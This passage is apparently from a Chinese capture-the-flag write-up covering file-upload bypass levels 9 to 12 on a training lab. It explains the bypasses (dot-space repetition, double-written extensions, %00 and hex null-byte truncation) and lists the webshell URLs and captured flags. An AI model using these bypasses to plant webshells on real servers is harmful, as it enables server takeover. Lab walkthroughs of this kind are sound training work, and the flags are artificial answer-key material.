 1. 先去除了**点**
2. 再去除了**空**
3. 只执行了一次。

因此， 可以复写 **点空** 进行绕过。

```bash
http://59.63.200.79:8016/Pass-09/upload//webshell.php.

# flag_%#B_SfdG.txt : zkaq{1+U=Tl=%AKS-juZ5}
```

## 10 双写文件后缀绕过

代码删除了后缀名中的黑名单字段。 **但只执行了一次**， 没有进行多次校验。
利用逻辑与 **点空点** 相似。

![](https://nc0.cdn.zkaq.cn/md/8461/c95ebdb2f1945216e084fd81ec41d901_95051.png)

```bash
http://59.63.200.79:8016/Pass-10/upload//webshell.php

# flag_Wzs%7OQt.txt : zkaq{7aYaRs8IN+9pP=rx}
```

## 11 `%00` 截断绕过

`%00` 阶段是 php 低版本 5.3.x 中的一个漏洞。 当 PHP 在 **URL** 中遇到 **%00** 时， 会认为语句结束而抛弃后面的语句。


![](https://nc0.cdn.zkaq.cn/md/8461/fffa81ad849ff1b566ae69e5f8231c2b_83169.png)


```bash
http://59.63.200.79:8016/upload/webshell.php%EF%BF%BD/2520201222235046.jpg

# 可利用
http://59.63.200.79:8016/upload/webshell.php

# flag_bNiqD%LB.txt : zkaq{E9JvKGkwMNLDpZRm}
```

## 12. %00截断绕过(二)

当 **存储路径** 不在 URL 中时， 需要使用 二进制 **00** 阶段

**1. 篡改上传路径， 并多写一个字符 a**

![](https://nc0.cdn.zkaq.cn/md/8461/9779a352328211cc4896ed99b2002841_40928.png)

**2. 使用 hex 工具，将 a 修改为 00**

![](https://nc0.cdn.zkaq.cn/md/8461/a8a9ac738678833aff0384a4c2a7160d_19475.png)

```bash
http://59.63.200.79:8016/upload/webshell.php%EF%BF%BD/3820201222235447.jpg
# 可利用
http://59.63.200.79:8016/upload/webshell.php

# flag_UZ3F-eeb.txt : zkaq{hx5JQH@+OkI_5Fiv}
```
